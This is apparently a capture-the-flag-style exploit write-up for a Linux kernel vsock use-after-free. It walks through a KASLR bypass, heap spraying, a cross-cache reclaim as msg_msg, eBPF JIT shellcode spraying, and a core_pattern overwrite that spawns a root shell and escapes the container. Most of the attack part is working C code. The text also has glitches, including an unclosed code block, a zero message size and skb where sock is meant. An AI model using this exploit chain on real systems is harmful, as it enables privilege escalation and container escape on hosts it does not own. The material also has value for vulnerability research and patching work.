 # Vulnerability

This vulnerability occurs in the Linux kernel's vsock subsystem, specifically due to improper handling of socket bindings during transport reassignment. When a vsock is created and bound (either explicitly via bind() or implicitly via autobind during a connection), improper reference count management leads to premature removal and deallocation of the socket (use-after-free). Specifically, the kernel incorrectly removes and decreases `struct sock`'s reference count without ensuring it was properly bound, resulting in `struct sock` being freed prematurely. Consequently, further access to this freed `struct sock` causes a use-after-free condition, potentially allowing attackers to exploit freed `struct sock`.


# Exploit Tech Detail
The exploit is consist in the following steps
* EntryBleed: Breaking KASLR under KPTI with Prefetch (CVE-2022-4543)
* Spray as many anonymous memory as possible to full the kernel heap memory
* Use cross-cache tech to reclaim freed `struct sock` as `struct msg_msg`
* Call __vsock_release to RIP Control
* Achieve container escape.

## EntryBleed: Breaking KASLR under KPTI with Prefetch (CVE-2022-4543)
This technique we used to bypass KASLR.  This technique we're able to predict/guess the physmap address of the msg_msg object in kernel heap. In our exploit this technique also shown to get kernel .text address, but it will be corrected later when we get kernel .text address via pipe_buffer leak to make it more reliable. You can find the details about this technique [here](https://www.willsroot.io/2022/12/entrybleed.html).

## Spray as many anonymous memory as possible to full the kernel heap memory

```C
// Spray as many anonymous memory as possible to full the kernel heap memory
int spray_anon_map()
{
	size_t *addr = SYSCHK(mmap(0, 0x30000000, PROT_READ | PROT_WRITE, MAP_SHARED | MAP_ANON, -1, 0));
	for (int i = 0; i < 0x30000000 / 8; i++)
	{
		addr[i] = 0xffffffffcc000000 - 0x800;
	}
}
```

We implements a memory spraying technique to exhaust kernel heap memory by allocating a large anonymous shared memory region (0x30000000 bytes, approximately 768 MB) using the mmap system call. It fills this allocated memory with a specific kernel-space address (0xffffffffcc000000 - 0x800), which is our guessd ebpf address


## Use cross-cache tech to reclaim freed `struct sock` as `struct msg_msg`

With cross-cache tech, we can reclaim victim skb as msg_msg which is under `kmalloc-cg-256` cache like following example code.

* Allocate a lot sock between victim
```c
	// Allocate some `struct sock` before victim
	for (int i = 0; i < 0x100; i++)
		cross[i] = SYSCHK(socket(AF_VSOCK, SOCK_STREAM, 0));

	fd = SYSCHK(socket(AF_VSOCK, SOCK_STREAM, 0));

	// Allocate some `struct sock` after victim
	for (int i = 0; i < 0x100; i++)
		cross[i + 0x100] = SYSCHK(socket(AF_VSOCK, SOCK_STREAM, 0));

```

* Free them all and reclaim as msg_msg
```c

	// free all `struct sock`
	for (int i = 0; i < 0x100; i++)
		close(cross[i]);

	vsock_connect_fd(fd, VMADDR_CID_HOST, VMADDR_PORT_ANY);

	// free all `struct sock`
	for (int i = 0; i < 0x100; i++)
		close(cross[i + 0x100]);

	for (int i = 0; i < 0x4000; i++)
		SYSCHK(msgsnd(msqid[i], &msg, KMALLOC_CG_1k - KMALLOC_CG_1k, 0));



* Forge skb to make users equal to one and destructor as the address we want to jump to



## RIP Control
We set `vsk->transport` to our guessed kernel heap which contents is our guessed ebpf address.

```c
static void __vsock_release(struct sock *sk, int level)
{
	if (sk) {
		struct sock *pending;
		struct vsock_sock *vsk;

		vsk = vsock_sk(sk);
		pending = NULL;	/* Compiler warning. */

		/* When "level" is SINGLE_DEPTH_NESTING, use the nested
		 * version to avoid the warning "possible recursive locking
		 * detected". When "level" is 0, lock_sock_nested(sk, level)
		 * is the same as lock_sock(sk).
		 */
		lock_sock_nested(sk, level);

		if (vsk->transport)
			vsk->transport->release(vsk);
```


## Achieve container escape
### Spray eBPF programs
Our goal is to do some eBPF JIT spraying so later when we control kernel RIP, it will jump to the JIT page and execute our shellcode.

Linux kernel provide a socket option `SO_ATTACH_FILTER` and let user to attach a classic BPF program to the socket for use as a filter of incoming packets.

By creating lots of sockets and attach to classic BPF program, we can spray a lot of eBPF programs in kernel.
```cpp
    struct sock_fprog prog = {
        .len =  TSIZE,
        .filter = filter,
    };
    for(int i=0;i<NUM;i++){
        int fd[2];
        SYSCHK(socketpair(AF_UNIX,SOCK_DGRAM,0,fd));
        SYSCHK(setsockopt(fd[0],SOL_SOCKET,26,&prog,sizeof(prog)));
    }
```

As for the shellcode in our eBPF program, our goal is to overwrite  `/proc/sys/kernel/core_pattern` so later we can execute command as root by triggering crash. Here's what our shellcode did to achieve our goal:
* Use the `rdmsr` instruction to obtain the kernel text address. With RCX being set to MSR_LSTAR ( `0xc0000082` ), we'll be able to obtain the address of `entry_SYSCALL_64`.
* Calculate the address of `core_pattern` and `_copy_from_user`.
* Call `_copy_from_user(core_pattern, user_buf, 0x30);`, where `user_buf` is a buffer in user space that stores the content we want to overwrite in `core_pattern`. 

We construct our eBPF program with the following form:

```cpp
struct sock_filter table[] = {
        {.code = BPF_LD + BPF_K, .k = 0xb3909090},
        {.code = BPF_LD + BPF_K, .k = 0xb3909090},
        .....................
};
```

The above example will be compiled into the following instructions after JIT:

```
b8 90 90 90 b3    mov eax, 0xb3909090
b8 90 90 90 b3    mov eax, 0xb3909090
```

If we can control kernel RIP to jump into the NOP instruction ( 0x90 ), the code will become:

```
90       nop 
b3 b8    mov    bl, 0xb8
90       nop
90       nop
90       nop
b3 b8    mov    bl, 0xb8
....
```

We can see that by using an extra byte `0xb3`, we can skip the useless byte `0xb8` and execute our own shellcode. Notice that due to the "skipping part", we only have 3 bytes of space in each instruction, so we'll have to take care of that as well during our shellcode construction.

### Post RIP

Once we control the kernel RIP and jump into the middle of our eBPF program, the shellcode we crafted will cause core_pattern being overwritten to `|/proc/%P/fd/666 %P %P`:

We then use memfd and write an executable file payload in fd 666.
```C
int check_core()
{
	// Check if /proc/sys/kernel/core_pattern has been overwritten
	char buf[0x100] = {};
	int core = open("/proc/sys/kernel/core_pattern", O_RDONLY);
	read(core, buf, sizeof(buf));
	close(core);
	return strncmp(buf, "|/proc/%P/fd/666", 0x10) == 0;
}
void crash(char *cmd)
{
	int memfd = memfd_create("", 0);
	SYSCHK(sendfile(memfd, open("/proc/self/exe", 0), 0, 0xffffffff));
	dup2(memfd, 666);
	close(memfd);
	while (check_core() == 0)
		sleep(1);
	puts("Root shell !!");
	/* Trigger program crash and cause kernel to executes program from core_pattern which is our "root" binary */
	*(size_t *)0 = 0;
}
```

Later when coredump happened, it will execute our executable file as root in root namespace:
```C
*(size_t*)0=0; //trigger coredump
```

Spawn shell when coredump happened. This is the code looks like:
```c++
	if (argc > 2)
	{
		// #define SYS_pidfd_getfd 438
		int pid = strtoull(argv[2], 0, 10);
		int pfd = syscall(SYS_pidfd_open, pid, 0);
		int stdinfd = syscall(SYS_pidfd_getfd, pfd, 0, 0);
		int stdoutfd = syscall(SYS_pidfd_getfd, pfd, 1, 0);
		int stderrfd = syscall(SYS_pidfd_getfd, pfd, 2, 0);
		dup2(stdinfd, 0);
		dup2(stdoutfd, 1);
		dup2(stderrfd, 2);
		/* Get flag and poweroff immediately to boost next round try in PR verification workflow*/
		system("cat /flag;echo o>/proc/sysrq-trigger");
		execlp("bash", "bash", NULL);
	}
```